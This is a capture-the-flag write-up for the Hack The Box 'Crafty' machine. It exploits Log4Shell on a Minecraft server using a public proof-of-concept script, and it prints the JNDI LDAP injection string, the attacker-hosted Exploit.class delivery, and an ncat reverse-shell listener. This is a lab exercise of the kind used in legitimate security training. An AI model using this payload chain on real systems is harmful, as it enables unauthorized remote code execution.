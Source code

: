 ```powershell
ncat.exe -nvlp 389

Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.199.164.
Ncat: Connection from 10.129.199.164:49680.
0
`Ç
```

# User as svc_minecraft

## Log4shell

[https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc) is the payload I opted to use. Now this is the point where I can lament that I hadn't tested log4shell in the past because if I had this would have been a first blood for user in the season. I had all the info I needed the seconds after starting and enumerating the box as to if Log4shell would work, but minecraft wasn't installed in my hacking vm and I didn't have the proper java version from oracle. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Crafty/log4j-shell-poc]
└──╼ $tar -xf jdk-8u20-linux-i586.tar.gz
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Crafty/log4j-shell-poc]
└──╼ $./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) Server VM (build 25.20-b23, mixed mode)
```

Be sure to change the cmd part of the java class in poc.py to whatever the shell of the vulnerable system would be. In windows we change that to 'cmd.exe' it is default bash in the github repo. This script will host the ldap server and webserver, then send a shell to a provided port. It provides the payload to send.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Crafty/log4j-shell-poc]
└──╼ $python3 poc.py --userip 10.10.14.3 --webport 8000 --lport 7777

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.26:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.26:8000/Exploit.class
10.129.180.159 - - [10/Feb/2024 16:25:45] "GET /Exploit.class HTTP/1.1" 200 -

```
